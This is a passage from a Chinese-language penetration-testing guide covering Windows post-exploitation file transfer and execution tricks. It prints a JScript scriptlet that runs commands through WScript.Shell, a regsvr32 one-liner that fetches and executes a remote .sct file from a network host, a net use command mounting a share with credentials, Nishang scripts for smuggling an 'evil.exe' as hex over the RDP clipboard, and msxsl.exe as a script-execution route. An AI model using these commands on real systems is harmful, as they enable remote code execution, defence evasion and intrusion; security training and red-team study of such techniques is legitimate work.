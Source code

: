 test.data 内容：

```
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <!-- Learn from Casey Smith @subTee -->
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);

        ]]>
</script>
</registration>
</scriptlet>
```

还可以利用

https://github.com/CroweCybersecurity/ps1encode 生成 sct 文件：

```
regsvr32 /u /s /i:http://192.168.3.1/test.sct scrobj.dll
```

#### 3.13 Windows Share

Windows shares 可以加载一个驱动器，然后用命令来复制文件。

加载远程驱动：

```
net use x: \\127.0.0.1\share /user:example.com\userID myPassword
```

#### 3.14 格式转换

> 当需要把一个 exe 文件放到目标计算机上时，Nishang 可以使用 PowerShell 允许你把一个 exe 转换成 hex，然后把 hex 再转换成原来的 exe 文件：

把 exe 转成 hex 文件输入：

```
PS > .\ExetoText.ps1 evil.exe evil.txt
```

打开 evil.txt 文件，复制内容，然后通过 RDP 的剪贴板复制进目标计算机，把 hex 文件还原成 exe 文件输入：

```
PS > .\TexttoExe.ps1 evil.text evil.exe
```

#### 3.15 其它

1.MSXSL.EXE

msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令。
